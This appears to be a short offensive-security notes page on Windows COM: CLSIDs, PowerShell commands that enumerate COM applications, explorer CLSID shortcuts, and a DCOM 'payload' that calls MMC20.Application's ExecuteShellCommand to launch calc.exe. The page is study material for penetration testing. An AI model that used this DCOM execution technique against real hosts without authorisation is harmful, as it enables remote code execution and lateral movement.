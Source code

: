 ## Component Object Model (COM)

 is a platform-independent, distributed, object-oriented system for creating binary software components that can interact. COM is the foundation technology for Microsoft's OLE (compound documents), ActiveX (Internet-enabled components), as well as others.

* `CLSID – The Class Identifier (CLSID)` is a Global Unique Identifier (GUID). Windows stores a CLSID for each installed class in a program. When you need to run a class, you need the correct CLSID, so Windows knows where to go and find the program.
  * `oleview.exe` 

searching some COM Objects available and that can allows us to Execute code on the local machine.

`Powershell`

```powershell
Get-CimInstance -ClassName Win32_ComApplication
```

```
Get-CimInstance -ClassName Win32_ComApplication -property * | select-string shellwindows
```

`registry`

```cmd
Computer\HKEY_CLASSES_ROOT\CLSID
```

### Explorer

```cmd
explorer /e,::{F02C1A0D-BE21-4350-88B0-7367FC96EF3C}
```

https://www.tenforums.com/tutorials/3123-clsid-key-guid-shortcuts-list-windows-10-a.html

https://www.elevenforum.com/t/list-of-windows-11-clsid-key-guid-shortcuts.1075/

##### Allowed App

```cmd
explorer "shell:::{4026492F-2F69-46B8-B9BF-5654FC07E423}\pageConfigureApps"
```

### payload - DCOM

```powershell
$com = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application","127.0.0.1")
$com.Document.ActiveView.ExecuteShellCommand("C:\Windows\System32\Calc.exe",$null,$null,"7")
```